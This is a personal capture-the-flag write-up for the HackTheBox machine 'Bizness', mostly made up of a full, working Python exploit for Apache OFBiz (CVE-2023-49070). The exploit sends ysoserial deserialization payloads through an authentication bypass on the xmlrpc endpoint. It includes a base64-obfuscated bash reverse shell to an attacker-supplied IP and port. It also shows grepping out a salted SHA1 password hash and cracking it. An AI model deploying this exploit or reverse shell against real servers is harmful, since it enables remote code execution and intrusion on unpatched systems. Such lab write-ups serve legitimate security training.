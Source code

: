# Savage-Labs : Bizness Writeup

Name: Bizness
Date:  
Difficulty:  
Goals:  
Learnt:
Beyond Root:

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Bizness/Screenshots/ping.png)

![](httpswebroot.png)
![](subscribefield-works.png)
![](subscribefield.png)
![](contactusformdoesnotwork.png)
![](nocontactform-php302.png)
![](trying50178.png)
![](gb-controlpage.png)
![](gbfindthecontrolsubpages.png)
![](ofbiz18-12.png)
![](fail-webtool-cve2023-49070.png)
![](fail-control-cve2023-49070.png)
![](HackTheBox/Retired-Machines/Bizness/Screenshots/PONG.png)
![](defaultpasswordjustforcompletionism.png)
![](tryingtopingsomehow.png)
![](cyberchefhelpingforbase64theysoserialpayload.png)
![](bestsolutiontothejavaissues.png)



## Exploit



```bash
sudo apt-get install openjdk-11-jdk
```

Modded by running from the absolute path instead from the alias's path or setting up a another alias
```python
# This exploit has been written by Abdelhameed Ghazy 
# Twitter : https://twitter.com/abd0ghazy
# https://www.linkedin.com/in/abdelhameed-ghazy-1a50b619a/

import requests, sys, subprocess,base64,urllib3,os
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)



headers = {
    'Content-Type': 'application/xml'
}


def rce(url,arg):
    try:
        payload=subprocess.check_output(["/usr/lib/jvm/java-11-openjdk-amd64/bin/java","-jar","ysoserial-all.jar","CommonsBeanutils1",arg])
    except:
        sys.exit("""
        Command didn't executed, please make sure you have java binary v11
        this exploit tested on this env
        openjdk version "11.0.17" 2022-10-18
        OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
        OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)
        """)
    

    base64_payload=base64.b64encode(payload).decode()
    xml_data = '''<?xml version="1.0"?>
    <methodCall>
        <methodName>RCE-Test</methodName>
        <params>
            <param>
                <value>
                    <struct>
                        <member>
                            <name>rce</name>
                            <value>
                                <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">
                                %s
                                </serializable>
                            </value>
                        </member>
                    </struct>
                </value>
            </param>
        </params>
    </methodCall>
    '''%base64_payload
    r=requests.post(url+"webtools/control/xmlrpc;/?USERNAME=Y&PASSWORD=Y&requirePasswordChange=Y",data=xml_data,headers=headers,verify=False)
    if "java.lang.reflect.InvocationTargetException" in r.text:
        print("Exploit Completed Successfully !")
    else:
        print("Not Sure Worked or not ")



def dns(url,arg):
    try:
        payload=subprocess.check_output(["/usr/lib/jvm/java-11-openjdk-amd64/bin/java","-jar","ysoserial-all.jar","URLDNS",arg])
    except:
        sys.exit("""
        Command didn't executed, please make sure you have java binary v11
        this exploit tested on this env
        openjdk version "11.0.17" 2022-10-18
        OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
        OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)
        """)
    base64_payload=base64.b64encode(payload).decode()
    xml_data = '''<?xml version="1.0"?>
    <methodCall>
        <methodName>Dns</methodName>
        <params>
            <param>
                <value>
                    <struct>
                        <member>
                            <name>rce</name>
                            <value>
                                <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">
                                %s
                                </serializable>
                            </value>
                        </member>
                    </struct>
                </value>
            </param>
        </params>
    </methodCall>
    '''%base64_payload
    r=requests.post(url+"webtools/control/xmlrpc;/?USERNAME=Y&PASSWORD=Y&requirePasswordChange=Y",data=xml_data,headers=headers,verify=False)
    if "No such service" in r.text:
        print("Exploit Completed Successfully !")
    else:
        print("Not Sure Worked or not ")

def shell(url,arg):
    try:
        ip=arg.split(":")[0]
        port=int(arg.split(":")[1])
        rev_shell_command="bash -i >& /dev/tcp/{ip}/{port} 0>&1".format(ip=ip,port=port)
        encoded_rev_shell_command=base64.b64encode(rev_shell_command.encode()).decode()
        rev_shell1='bash -c echo${IFS}%s|base64${IFS}-d|bash'%encoded_rev_shell_command
        rce(url,rev_shell1)

    except:
        sys.exit("Please make sure from data")


def main():

    if not len(sys.argv) > 3:
        sys.exit("""
                Usage: 
                python3 exploit.py target_url rce command
                python3 exploit.py target_url dns dns_url
                python3 exploit.py target_url shell ip:port
                """)

    if not os.path.exists("ysoserial-all.jar"):
        sys.exit("ysoserial-all.jar file must be in the same directory")

    target_url=str(sys.argv[1])
    action=str(sys.argv[2])
    arg=str(sys.argv[3])
    if not target_url.endswith("/"):
        target_url=target_url+"/"
    if not target_url.startswith("http://") and not target_url.startswith("https://"):
        sys.exit("""
                Please Enter a Valid target_url
                Ex: https://example.com
                """)

    if action == "rce":
        rce(target_url,arg)
    elif action == "dns":
        if not arg.startswith("http://") and not arg.startswith("https://"):
                    sys.exit("""
                Please Enter a Valid dns url
                Ex: https://example.com
                """)
        dns(target_url,arg)

    elif action == "shell":
        shell(target_url,arg)
    else:
        sys.exit("""
        Usage: 
        python3 exploit.py target_url rce command
        python3 exploit.py target_url dns dns_url
        python3 exploit.py target_url shell ip:port
        """)
        

main()

```
## Foothold

![1080](footholdacquired.png)
## PrivEsc

```
cat tylers-help | uniq | grep -v 'auto-save\|ACCESS\|USER'
cat tylers-help | uniq | grep 'currentPassword'

```

It is a sha1 hash
```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

![](correcthashcatmode.png)

The interesting part being that we have to put the salt in with the command in hashcat
![](orwegetthiserror.png)

Team mates wave and 0x67673068 *"Stored as a base64 url-safe encoded fashion and needs to be reconverted back to traditional hex"* 
![](goodwavetothesave.png)

Remember to stub no cry! Lmao
![](stubnopassword.png)

For monkey related password
![](monkeyrelatedpasswords.png)

```
b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness
```

## Post Root Reflection

- Look for PoC exploits
- Sometimes it is a race to sign up to oracle..

## Beyond Root


